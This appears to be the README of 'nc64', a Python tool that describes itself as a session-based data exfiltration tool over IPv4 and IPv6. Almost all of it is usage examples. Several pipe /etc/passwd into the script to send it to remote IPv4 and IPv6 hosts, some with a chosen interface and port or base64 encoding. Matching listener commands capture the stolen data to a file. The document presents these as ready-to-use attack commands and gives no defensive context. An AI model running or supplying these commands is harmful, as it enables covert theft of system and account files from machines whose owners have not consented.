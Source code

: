 # nc64
IPv6 and IPv4 session based data exfiltration tool

# Examples:
cat /etc/passwd | python3 nc64.py -h4 192.168.10.10 -h6 2a02:1010:12aa::11

python3 nc64.py -l > out

cat /etc/passwd | python3 nc64.py -i wlan0 -p 4444 -h4 192.168.10.10 -h6 2a02:1010:12aa::11

python3 nc64.py -l -i eth1 -p 4444 > out

cat /etc/passwd | python3 nc64.py -h4 192.168.10.10 -h6 2a02:1010:12aa::11 -b64 -T

python3 nc64.py -l -b64 > out
